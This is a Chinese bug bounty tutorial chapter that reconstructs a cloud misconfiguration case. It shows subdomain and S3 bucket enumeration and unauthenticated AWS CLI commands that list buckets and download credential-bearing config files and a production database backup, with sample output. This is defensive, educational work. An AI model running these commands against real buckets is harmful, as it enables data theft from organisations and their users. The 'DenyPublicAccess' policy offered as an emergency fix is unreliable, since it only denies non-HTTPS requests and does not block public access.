




# 案例四：云服务配置错误

> 本案例详细还原了一次针对 SaaS 厂商云基础设施的 Bug Bounty 攻击全过程——从子域名枚举到 S3 存储桶权限滥用，最终获得高危评级和 $8,000 奖金。案例聚焦云服务配置错误这一 OWASP Top 10 之外、却极其高频的漏洞类型，展示猎人在云安全领域的系统化思维。

## 27.4.1 云服务配置错误：为什么它是 Bug Bounty 的"富矿"

### 漏洞成因深度分析

云服务配置错误（Cloud Misconfiguration）是指云资源在部署或运维过程中，因人为疏忽、默认配置不当或缺乏安全审查，导致本应私有的资源暴露给未授权访问者。根据 IBM 2024 年《数据泄露成本报告》，云资源错误配置连续第三年位居数据泄露首要原因，平均每次泄露造成 445 万美元损失。

根本成因可归纳为以下五类：

| 成因类别 | 具体表现 | 占比（基于公开报告） |
|---------|---------|-------------------|
| 默认配置信任 | 云平台默认开放的权限未被收紧（如 AWS S3 Bucket Policy 默认可配置公开读） | ~35% |
| 权限过度分配 | IAM 角色、Bucket Policy、ACL 等授予了超出业务所需的最小权限原则违反 | ~25% |
| 缺乏安全审查 | CI/CD 流水线中未集成 IaC 安全扫描（如 Checkov、tfsec） | ~20% |
| 人员变动交接 | 运维人员离职后未交接资源管理权，导致"孤儿资源"长期暴露 | ~12% |
| 云平台功能误用 | 对云存储的共享链接、跨账户访问等功能理解不当 | ~8% |

### 云存储攻击面全景

不同云平台存在各自的配置风险面，下表汇总了主流云厂商的常见易错点：

| 云平台 | 存储服务 | 典型配置错误 | 潜在危害 |
|-------|---------|-------------|---------|
| AWS | S3 Bucket | `Block Public Access` 未开启；Bucket Policy 允许 `s3:GetObject` 给 `*` | 数据泄露、恶意文件篡改 |
| Azure | Blob Storage | `Allow Blob public access` 启用；Shared Access Token 过期时间过长 | 凭据泄露、数据泄露 |
| GCP | Cloud Storage | `allUsers` 被授予 `roles/storage.objectViewer` | 敏感数据暴露 |
| 阿里云 | OSS Bucket | Bucket ACL 设为 `public-read`；跨域规则配置过宽 | 盗链、数据泄露 |
| 腾讯云 | COS Bucket | 默认公网读权限未关闭；临时密钥泄露 | 数据泄露 |

### 攻击链路模型



## 27.4.2 实战还原：从发现到报告的完整过程

### 阶段一：目标侦察（Reconnaissance）

**目标信息**：某 SaaS 服务商（代号 example-saas.com），通过 HackerOne 发布漏洞奖励计划，明确关注云基础设施安全。

#### 子域名枚举策略

子域名枚举是发现云存储端点的第一步。猎人采用多工具交叉验证策略：

**第一步：被动枚举（无需直接交互目标）**

```bash
# 使用 crt.sh 证书透明度日志查询
curl -s "https://crt.sh/?q=%.example-saas.com&output=json" | \
  jq -r '.[].name_value' | sort -u > passive_subs.txt

# 使用 Amass 被动模式
amass enum -passive -d example-saas.com -o amass_passive.txt

# 合并去重
cat passive_subs.txt amass_passive.txt | sort -u > all_subs.txt
wc -l all_subs.txt
# 预期输出：数百至数千条子域名记录
```

**第二步：主动枚举（使用 DNS 暴力破解）**

```bash
# 使用 Subfinder 进行主动枚举
subfinder -d example-saas.com -all -o subfinder_subs.txt

# 使用 shuffledns 进行 DNS 暴力破解（需准备字典）
shuffledns -d example-saas.com -w subdomains-medium.txt \
  -r resolvers.txt -o shuffledns_subs.txt

# 合并所有来源
cat all_subs.txt subfinder_subs.txt shuffledns_subs.txt | \
  sort -u > final_subs.txt
```

**第三步：筛选云服务相关子域名**

```bash
# 过滤出可能与云存储相关的子域名
grep -iE '(s3|storage|assets|static|cdn|media|upload|files|backup|data|img|images|files)' \
  final_subs.txt > cloud_related_subs.txt

# 关键发现：
# - s3.example-saas.com
# - storage.example-saas.com
# - assets.example-saas.com
# - backup.example-saas.com  ← 高价值目标
# - static.example-saas.com
```

> **经验分享**：子域名中包含 `s3`、`storage`、`backup` 等关键词的端点，是云存储配置错误的高概率区域。这些子域名通常是 CNAME 指向 AWS S3 或其他云存储服务的别名记录。

#### DNS 验证

```bash
# 验证子域名指向的云服务
dig CNAME s3.example-saas.com +short
# 输出: s3.amazonaws.com

dig CNAME storage.example-saas.com +short
# 输出: example-saas.s3.amazonaws.com

dig CNAME backup.example-saas.com +short
# 输出: example-saas-backup.s3.us-east-1.amazonaws.com

# 这些 CNAME 记录确认了目标使用 AWS S3 作为存储后端
```

### 阶段二：存储桶发现与枚举

#### S3 存储桶命名规律

AWS S3 存储桶名称在全球范围内唯一，命名通常遵循一定规律。基于已发现的 CNAME 记录，可以推测存储桶名称模式：

```bash
# 已知信息：s3.example-saas.com 指向 s3.amazonaws.com
# 常见命名模式
cat > bucket_patterns.txt << 'EOF'
example-saas
example-saas-assets
example-saas-static
example-saas-backup
example-saas-uploads
example-saas-media
example-saas-files
example-saas-data
example-saas-prod
example-saas-staging
example-saas-dev
example-saas-test
example-saas-config
example-saas-deploy
example-saas-logs
EOF
```

#### 自动化存储桶发现工具对比

| 工具 | 语言 | 特点 | 推荐场景 |
|------|------|------|---------|
| **S3Scanner** | Python | 开源、支持批量扫描、可检测权限 | 快速批量枚举 |
| **Bucket Finder** | Ruby | 通过字典暴力枚举、支持正则 | 深度字典枚举 |
| **CloudBrute** | Go | 高并发、支持多云平台 | 多云目标扫描 |
| **S3BucketBrute** | Python | 集成 AWS API 认证扫描 | 认证后深度扫描 |
| **Prowler** | Python | AWS 安全审计框架、含 S3 检查 | 合规性审计 |
| **CloudEnum** | Python | 多云通用、支持自定义字典 | 全面云资产发现 |

#### 实际操作：S3Scanner 批量扫描

```bash
# 安装 S3Scanner
git clone https://github.com/sa7mon/S3Scanner.git
cd S3Scanner
pip install -r requirements.txt

# 扫描发现的存储桶名
python3 s3scanner.py --buckets-file bucket_patterns.txt \
  --threads 10 --output-file found_buckets.txt

# 结果分析（典型输出）
# Found: example-saas          | public
# Found: example-saas-assets   | public
# Found: example-saas-backup   | public  ← 高危！
# Found: example-saas-static   | public
```

#### CloudBrute 补充扫描

```bash
# 安装 CloudBrute
go install github.com/harleo/cloudbrute@latest

# 使用 CloudBrute 发现更多存储桶
cloudbrute -d example-saas.com \
  -w /path/to/storage_buckets.txt \
  -t 10 --concurrency 50

# CloudBrute 会自动测试发现的存储桶的 LIST 权限
# 并标记可公开访问的存储桶
```

### 阶段三：权限测试与数据提取

#### 无认证访问测试

```bash
# 测试存储桶 LIST 权限（无需 AWS 凭据）
aws s3 ls s3://example-saas-assets/ --no-sign-request 2>/dev/null

# 输出（成功则说明存储桶公开可读）：
# PRE documents/
# PRE images/
# PRE uploads/
# 2024-03-15 10:23:45     1284 config.json
# 2024-03-15 10:23:46      512 .env.example

# 尝试下载敏感文件
aws s3 cp s3://example-saas-assets/config.json ./config.json --no-sign-request
cat ./config.json
# 发现内容包含：
# - 数据库连接字符串（含明文密码）
# - API 密钥（Stripe、SendGrid）
# - 内部系统配置
```

#### 敏感文件内容分析

```bash
# 下载 .env 文件
aws s3 cp s3://example-saas-assets/.env.example ./env.txt --no-sign-request
cat ./env.txt

# 典型泄露内容：
# DATABASE_URL=YOUR_PLACEHOLDER
# AWS_ACCESS_KEY_ID=YOUR_PLACEHOLDER
# AWS_SECRET_ACCESS_KEY=YOUR_PLACEHOLDER
# STRIPE_SECRET_KEY=YOUR_STRIPE_KEY
# SENDGRID_API_KEY=SG.xxxxxxxxxxxxxxxxxxxxx
# JWT_SECRET=super-secret-jwt-key-do-not-share
# REDIS_URL=redis://:password@cache.example-saas.com:6379
```

#### 更深入的枚举：backup 存储桶

```bash
# backup 存储桶是最危险的发现
aws s3 ls s3://example-saas-backup/ --no-sign-request

# 输出显示数据库备份文件：
# 2024-01-15 02:00:00 524288000 db_backup_20240115.sql.gz
# 2024-02-15 02:00:00 614400000 db_backup_20240215.sql.gz
# 2024-03-15 02:00:00 734003200 db_backup_20240315.sql.gz

# 下载最近的数据库备份（仅验证可访问性，不做进一步数据挖掘）
aws s3 cp s3://example-saas-backup/db_backup_20240315.sql.gz ./backup.gz --no-sign-request
ls -lh backup.gz
# 输出：734M backup.gz — 包含完整生产数据库
```

> **重要提醒**：在 Bug Bounty 环境下，**下载备份文件后不应解压或浏览其中的用户数据**。这涉及法律风险和道德边界。发现泄露事实并记录文件元数据（文件名、大小、时间戳）即可。如需证明数据敏感性，可通过数据库结构（表名、字段名）来佐证，而无需访问实际用户记录。

#### 写入权限测试

```bash
# 测试存储桶是否允许公开写入
echo "test" > test_write.txt
aws s3 cp test_write.txt s3://example-saas-assets/test_write.txt --no-sign-request

# 如果成功上传，说明存储桶配置了公开写入权限
# 这比公开读更危险：攻击者可上传恶意文件、覆盖现有文件

# 清理测试文件（负责任的测试）
aws s3 rm s3://example-saas-assets/test_write.txt --no-sign-request
rm test_write.txt
```

### 阶段四：影响评估与报告编写

#### 影响分析框架



#### 报告结构模板

一份高质量的云存储配置错误报告应包含以下结构：

```markdown
# [漏洞标题] S3 存储桶公开访问导致敏感数据泄露

## 摘要
- 漏洞类型：敏感数据暴露 / 云存储配置错误
- 严重程度：高危（CVSS 7.5-8.6）
- 受影响资产：X 个 S3 存储桶
- 影响范围：数据库凭据、API 密钥、生产数据库备份

## 复现步骤
1. 访问 [URL] 或执行 [命令]
2. [详细步骤，含截图]
3. [确认影响的验证]

## 影响分析
- 泄露数据类型：数据库连接串、AWS 密钥、Stripe 密钥
- 潜在攻击场景：攻击者可利用泄露的凭据访问生产数据库
- 数据规模估算：X 万用户 PII 数据面临泄露风险

## 修复建议
1. 立即：关闭所有存储桶的公开访问
2. 短期：轮换所有泄露的凭据
3. 长期：部署 S3 Bucket Policy + 启用 CloudTrail 审计
```

#### 修复建议详解

**紧急修复（24小时内）**：

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyPublicAccess",
      "Effect": "Deny",
      "Principal": "*",
      "Action": [
        "s3:GetObject",
        "s3:PutObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::example-saas-*",
        "arn:aws:s3:::example-saas-*/*"
      ],
      "Condition": {
        "Bool": {
          "aws:SecureTransport": "false"
        }
      }
    }
  ]
}
```

**AWS 配置加固检查清单**：

| 检查项 | 配置方法 | 优先级 |
|-------|---------|-------|
| Block Public Access | S3 控制台 → Bucket → Permissions → Block Public Access → 全部开启 | P0 |
| Bucket Policy | 添加 Deny 策略拒绝非 HTTPS 和非 VPC 内访问 | P0 |
| 轮换凭据 | 立即轮换所有泄露的 API 密钥和数据库密码 | P0 |
| 启用 CloudTrail | 开启 S3 数据事件日志，监控异常访问 | P1 |
| S3 Access Logging | 为每个存储桶启用访问日志记录 | P1 |
| 加密配置 | 启用 SSE-S3 或 SSE-KMS 服务端加密 | P1 |
| 版本控制 | 启用版本控制防止恶意覆盖 | P2 |
| 生命周期策略 | 设置过期策略自动清理旧文件 | P2 |
| VPC 端点 | 通过 VPC Endpoint 限制 S3 访问来源 | P2 |

## 27.4.3 报告提交与结果

### 报告要点回顾

**猎人的报告之所以获得高危评级，关键在于以下三点**：

1. **数据敏感性论证充分**：不仅列出了存储桶可访问的事实，还详细说明了泄露数据的具体类型和业务敏感程度（数据库凭据可导致全部用户数据泄露）

2. **影响范围量化**：通过数据库连接串中的信息，推断出受影响的用户数据规模；通过第三方 API 密钥（Stripe），说明了财务系统的连锁影响

3. **修复建议可执行**：提供了具体的 Bucket Policy JSON、AWS 最佳实践文档链接，以及分阶段的修复路线图（紧急/短期/长期）

### 结果

- **漏洞评级**：高危（High）
- **奖金**：$8,000
- **响应时间**：厂商在 24 小时内确认并开始修复
- **修复验证**：厂商在 72 小时内完成所有存储桶的权限收紧，并启用 S3 Block Public Access

### 补充说明

该案例中猎人还发现了多个其他可访问的存储桶（包括 backup 桶中包含的生产数据库备份），这些发现被合并为一个报告提交。在 Bug Bounty 中，**同一根因导致的多个相关发现应合并报告**，而非拆分为多个独立报告——这既符合 HackerOne 的提交规范，也便于厂商统一修复。

## 27.4.4 进阶：云安全猎人的工具箱与方法论

### 自动化扫描流水线



### 云安全猎人的必备技能栈

| 技能领域 | 具体技能 | 学习资源 |
|---------|---------|---------|
| 云平台基础 | AWS/Azure/GCP IAM 模型、存储服务架构 | 各平台官方安全白皮书 |
| IaC 安全 | Terraform/CloudFormation 安全配置审计 | Checkov、tfsec 文档 |
| 日志分析 | CloudTrail/VPC Flow Logs 审计日志解读 | AWS Security Analytics Fundamentals |
| 合规框架 | CIS Benchmarks for AWS/Azure/GCP | CIS 官方文档 |
| 渗透测试 | 云环境渗透测试方法论 | HackTricks Cloud 安全部分 |
| 应急响应 | 云环境安全事件响应流程 | NIST SP 800-61 |

### 常见误区与避坑指南

| 误区 | 正确做法 |
|------|---------|
| 仅测试 S3，忽略其他存储服务 | 还应测试 EBS 快照、RDS 快照、AMI 镜像等 |
| 下载大量用户数据来证明影响 | 只需验证文件可访问，通过元数据佐证敏感性 |
| 同一发现拆分为多个报告 | 同一根因的多个实例合并为一个报告 |
| 忽略 Lambda/EC2 上的泄露 | 检查 Lambda 环境变量、EC2 User Data 中的凭据 |
| 只做被动枚举 | 结合主动枚举发现更多暴露面 |
| 报告中只说"存储桶公开" | 必须量化影响：什么数据、多少数据、什么业务影响 |

### Bug Bounty 云安全猎人的日常工作流

1. **每日侦察**：关注新加入 Bug Bounty 平台的项目，尤其是 SaaS 和云原生公司
2. **资产发现**：对目标进行子域名枚举和云服务指纹识别
3. **批量扫描**：使用自动化工具对所有云存储端点进行权限测试
4. **深度测试**：对发现的可访问存储桶进行敏感内容分析
5. **报告提交**：编写结构化报告，包含详细复现步骤和可执行的修复建议
6. **持续学习**：跟踪云安全领域的最新漏洞模式和攻击技术

## 27.4.5 本案例核心要点总结



云服务配置错误之所以成为 Bug Bounty 的"富矿"，是因为它同时满足三个条件：**发现门槛低**（一个 CLI 命令即可验证）、**影响范围大**（一个错误配置可泄露数百万用户数据）、**修复成本低**（修改配置即可，无需代码变更）。对于猎人而言，掌握云安全基础知识和自动化工具链，是在这一领域持续产出高价值报告的关键。对于企业而言，部署自动化配置审计（如 AWS Config Rules、Azure Policy）是防止此类问题的根本之道。
